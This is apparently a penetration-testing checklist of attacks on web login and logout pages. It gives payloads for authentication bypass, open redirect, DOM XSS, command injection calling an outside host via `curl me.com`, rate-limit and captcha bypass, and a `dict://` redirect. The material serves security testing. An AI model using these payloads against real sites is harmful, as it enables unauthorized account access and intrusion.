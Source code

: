 - Try SQL Injection
- Try NoSQL Injection
- Try To Insert &gt In Password Parameter AND change Content Type Header To application/json To Bypass Log In
- Try To add nameOfparameter[ ] In Email OR Password Parameter To OverWrite Value Of The Parameter
- Try To Insert `_all_docs` OR `user[ ]=_all_docs` In User Parameter With Undefined Password To Bypass Log In
- If The Body Of Request Is Json , Try To Log In By Using Multiple Usernames At The Same Time To Cause Error
- Try To Bypass Log In By Inserting e.g. \ OR ||1# As Email AND Password
- If There Is Next URL Parameter Try To Insert http:3627732462 OR https://www.google.com%ff@www.company.com To Redirect User To Google
- If There Is Next URL Parameter Try To Insert lol ';alert(document.domain)//lol To Get DOM-based XSS
- Try To Insert Curl As Part Of The Login To Get RCE

```
POST /logIn HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Referer: https://previous.com/path
Origin: https://www.company.com
Content-Length: Number

email=me&password=**************&`curl me.com`
```

- Try To Insert X-Forwarded-For Header One Time OR Two Times To Bypass Rate Limits
- Try To Do Brute Force On Password Parameter AND If There Is Too Many Requests, Insert %00 In The Username OR Email Parameter To Bypass Rate Limits
- Try To Send The Additional properties In The Request To Gain Extra Authorities OR Get More Functionalities like add `admin=true`
- Try To Change HTTP Request Method To GET Instead Of POST To Bypass Captcha
- Try To Remove Captcha Parameter To Bypass Captcha
- Try To Reuse The Old-Captcha To Bypass Captcha
- Try To Change JSON Body To Normal Body AND Content Type Header From application/json To  application/x-www-form-urlencoded To Bypass Captcha
- Try To Use Noun-Standard Headers e.g. X-Originating-IP , X-Client-IP, X-Remote-IP AND X-Remote-Addr To Bypass Captcha

```http
POST /logIn? HTTP/1.1
Host: www.company.com
X-Originating-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Content-Length: Number

user=me&password=****&captcha=Random
```

- If The Company Uses Captcha Image Contains Text Try To Use Convert Command AND Tesseract Tool To Extract The Text From The Image

```bash
# Steps to produce :-  
# Download The Image , Called e.g. img.png
convert img.png -colorspace gray  
                -threshold 50% imgOUT.png
tesseract imgOUT.png
```

- Try To Figure Out If The Session Will Expire After Logging Out OR Not
- Try To Log Out , And Insert dict://me.com:80 If There Is Parameter To Redirect After Log Out e.g. logout_path

```http
GET /logout?logout_path=dict://me.com:80 HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Origin: https://www.company.com
```



